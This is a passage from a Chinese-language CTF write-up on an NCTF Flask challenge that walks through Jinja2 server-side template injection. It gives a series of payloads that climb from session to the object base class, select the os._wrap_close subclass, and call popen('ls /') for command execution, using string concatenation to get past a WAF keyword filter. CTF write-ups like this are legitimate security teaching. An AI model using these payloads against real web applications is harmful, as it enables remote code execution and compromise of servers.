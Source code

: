 有了对象基类，我们就可以通过访问 `__subclasses__` 方法再实例化去访问所有的子类。同样使用字符串拼接绕过 WAF，这样就实现沙箱逃逸了。

payload：

```
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'ss__']()}}
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9iaiaHWJGG2S4iboyHekzDz9QmGhianuIuPzx2m6uicxjNLyefcQVORvDRIHsibL3kWB3eFvM4xLEFY2dg/640?wx_fmt=png)

img  

SSTI 目的无非就是两个：文件读写、执行命令。因此我们核心应该放在 file 类和 os 类。而坑爹的是，Python3 几乎换了个遍。因此这里得去看官方文档去找相应的基类的用处。

我还是从 os 库入手，直接搜索 “os”，找到了 `os._wrap_close` 类，同样使用 dict 键访问的方法。猜大致范围得到了索引序号，我这里序号是 312，

payload：

```
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[312]}}
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9iaiaHWJGG2S4iboyHekzDz9Qjdb5wNXciaIdRbTpE9t9uOxjMkTyvMCP0V6AvVrRwEZc1GibvW8iasAAg/640?wx_fmt=png)

nctf-flask-7  

我们调用它的 `__init__` 函数将其实例化，然后用 `__globals__` 查看其全局变量。

payload：

```
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[312].__init__.__globals__}}
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9iaiaHWJGG2S4iboyHekzDz9Qh8OX4RQ7jbp0sgMo1Wj9lncajK6cRxtiaL3LMXNE01Zk7gBVG418cPg/640?wx_fmt=png)

nctf-flask-8  

眼又花了，但我们的目的很明显，就是要执行命令，于是直接搜索 “popen” 就可以了：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9iaiaHWJGG2S4iboyHekzDz9Q0libcImQj7vlohA2Wdh2yibIwoNDYgoGmGD7kcRNuERYoPUBSEwNxk5Q/640?wx_fmt=png)

nctf-flask-9  

由于又是一个 dict 类型，我们调用的时候又可以使用字符串拼接，绕过 open 过滤。

后面顺理成章的，我们将命令字符串传入，实例化这个函数，然后直接调用 read 方法就可以了。

payload：

```
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[312].__init__.__globals__['po'+'pen']('ls /').read()}}
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9iaiaHWJGG2S4iboyHekzDz9QAUnjB2Vibu3MnsViaMAib02tZ1ertTsE6qia83zmFN8lZEsNlq6ZkyqWTQ/640?wx_fmt=png)
